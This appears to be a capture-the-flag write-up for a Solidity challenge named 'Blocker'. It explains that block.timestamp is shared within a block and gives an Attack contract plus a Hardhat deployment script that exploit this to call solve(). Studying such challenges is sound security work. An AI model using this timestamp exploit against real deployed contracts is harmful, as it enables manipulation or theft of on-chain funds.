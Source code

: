 ```solidity
```

For this challenge, we need to call the `solve` function with the timestamp of the block. Interestingly, this could be accomplished by adding some offset to the current timestamp since the timestamp has only a second resolution. However, the vulnerability is that `block.timestamp` is not good for security purposes. That timestamp is for the entire block and therefore any other contract that executes during that block has the same timestamp. We can deploy a contract that calls the `solve` function with `block.timestamp` as the argument. Therefore, to solve this challenge we deploy the following contract:

```solidity
pragma solidity 0.8.17;

import "./Blocker.sol";

contract Attack {
    Blocker blocker;

    constructor(address _blocker) {
        blocker = Blocker(_blocker);
    }

    function attack() public {
        blocker.solve(block.timestamp);
    }
}
```

To deploy this contract, we used the [Remix Online IDE](https://remix.ethereum.org/) and [MetaMask](https://metamask.io/). Here is the script we used to deploy and call our `Attack` contract. 

```javascript
// Right click on the script name and hit "Run" to execute
const {expect} = require('chai')
const {ethers} = require('hardhat')
 
describe('Blocker', function () {
    it('Attack', async function () {
        const setup = await ethers.getContractAt("Setup", "0x89E7251A52a61D6DaC95d145aEE04B4F8DB0Ca3E");
        const blockerAddr = await setup.blocker();
        console.log(`Blocker address: ${blockerAddr}`);

        const blocker = await ethers.getContractAt("Blocker", blockerAddr);
 
        const Attack = await ethers.getContractFactory('Attack')
        const attack = await Attack.deploy(blocker.address)
        await attack.deployed()
        await attack.attack()
 
        expect(await blocker.solved()).to.equal(true, 'Blocker solved()')
    })
})
```

